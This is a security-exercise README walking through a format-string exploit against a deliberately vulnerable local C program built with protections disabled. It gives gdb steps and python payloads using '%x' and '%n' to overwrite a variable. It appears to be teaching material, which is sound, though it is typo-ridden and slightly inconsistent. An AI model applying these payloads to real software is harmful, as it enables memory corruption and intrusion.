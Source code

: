 # sec_engineering_exercises

1. Create a c file like, for example with. 
'''
    vi vuln_s.c
'''
   For file content copy vuln_s.c 

2. Set enviroment flags 
'''
    export CFLAGS="-m32 -fno-stack-protector -z execstack -fno-PIE -no-pie -g -std=c99"
'''
3. Compile the file with GCC to create executable object
'''
    gcc -g -o vuln vuln_s.c -m32 -fno-stack-protector -z execstack -fno-PIE -no-pie -g
'''
4. Execute the file to ensure its working
'''
   ./vuln test
'''
Should return:

5. Opend program in debugger
'''
    gdb vuln
'''
6. Run program with '%x' whitch will return data from the stack - the hexadecimal value of stack
'''
    run %x
'''
Should return: ![Alt text](image-1.png)
7. Add a brakepoint at line 16 (where the call is made from the main fucntion to the vuln function)
'''
    break 14
'''
8. Run program again
'''
    run %x
'''
Shoudl return: ![Alt text](image-2.png)
9. Check the contect on the %esp registers by running
'''
    x/100x %esp
'''
Should return:
    ![Alt text](image-3.png)
10. So the str is located that 0xbffff789 and the '%x' value (0x4020e3fc) at 0xbffff550
    The distance between str and %x is 0xbffff789 - 0xbffff550 = 569 (https://www.calculator.net/hex-calculator.html?number1=bffff789&c2op=-&number2=bffff550&calctype=op&x=50&y=20)
    We want a number that is devisible by 4 (4 bytes) so will round 569 to 572 and then 572 / 4 = 143
    That means that the 'target' varaible is around 143 positions away from the start of the stack
    We can run a command that will pring us hexadecimal values up 143 places 
'''
11. Try and fail
    Try 143 spaces and see if you can see 414141 (represention of AAAA)
'''
     run `(python -c 'print "AAAA" + ".%x." * 143+"%x"')`
'''
Output: ![Alt text](image-4.png)
    Try to increase 143 to 146
'''
     run `(python -c 'print "AAAA" + ".%x." * 146+"%x"')`
'''
![Alt text](image-5.png)
    Ok, I can now see the hexadecima representaion of AAAA but it is not at the end of the output, I need to get rid of the '00'

    Try with adding extra padding (BB)
'''
    run `(python -c 'print "AAAA" +"BBB"+ "%x." * 146+"%x"')`
'''
   ![Alt text](image-8.png)
Ok, my string is now pointing to the hexadecimal represention of 'AAAA'

12. Replace AAAA with the address of the 'target' variable 
    To find the target variable type: '''p &target '''
    The output should be: ![Alt text](image-7.png)

13. Do the hack 
- Replace the 'AAAA' in the run commant with the address (its read from the back for fun)
- replace last '%x' with '%n' (x is reading and n is writing)
'''
    run `(python -c 'print "\x28\xa0\x04\x08" +"BBB"+ "%x." * 146+"%n"')`
'''
Output: ![Alt text](image-9.png)
14. See value of taget chaning
- add break at line 5
- add break at line 15
- run run `(python -c 'print "\x28\xa0\x04\x08" +"BBB"+ "%x." * 146+"%n"')`
- on first breakpoint type: print target - the value should be 0 
- type: '''next'''
- type: '''next'''
- print target - the value should be changed
![Alt text](image-10.png)




